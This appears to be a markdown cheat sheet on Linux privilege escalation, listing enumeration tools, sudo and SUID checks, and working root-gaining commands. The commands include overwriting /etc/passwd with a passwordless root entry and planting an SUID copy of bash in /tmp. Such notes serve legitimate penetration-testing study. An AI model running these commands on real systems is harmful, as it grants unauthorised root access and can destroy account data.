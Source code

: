 ## Enumeration

### Linpeas
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite

```
linpeash.sh -a > output.txt
cat output.txt | less -R
```

### linux-smart-enumeration
https://github.com/diego-treitos/linux-smart-enumeration

```
./lse.sh -l (use this to increase verbosity level default 0)
```

### linux-exploit-suggester-2 
(use this to find kernel exploits)

https://github.com/jondonas/linux-exploit-suggester-2

### Manual checks

Lists all commands the user can use with sudo permissions

```
sudo -l
```

Which service(s) are been running by root? Of these services, which are vulnerable - it's worth a double check!

```
ps aux | grep root
ps -ef | grep root
```

Weak File Permissions
```
//if we can write this file we can add a new root user
ls -la /etc/shadow
ls -la /etc/passwd\

// exploit in this way
echo 'root::0:0:root:/root:/bin/bash' > /etc/passwd; su
```


SUID/SGID Executables
An SUID is a file that allows a user to execute the file with the permissions of the file owner, an SGID is the same except with the group owner. If the owner is root, we can essentially run files with root permissions.

```
//find all SUID files

find / -perm /4000 -type f -exec ls -ld {} \; 2>/dev/null find all SUID files

// find all SGID files
find / -perm -g=s -type f 2>/dev/null

```
Check for service running only locally 
```
netstat -antpx
```

## EXPLOIT 
#### ROOTBASH
we can use this tecnquie when we found a script running as root, we can modify in this way
```
#!/bin/bash
cp /bin/bash /tmp/rootbash
chmod +s /tmp/rootbash
```
Ensure that overwrite.sh is executable:
```
chmod +x /home/user/overwrite.sh
```
run and gain a root shell (-p to preserve UID)
```
/tmp/rootbash –p
```
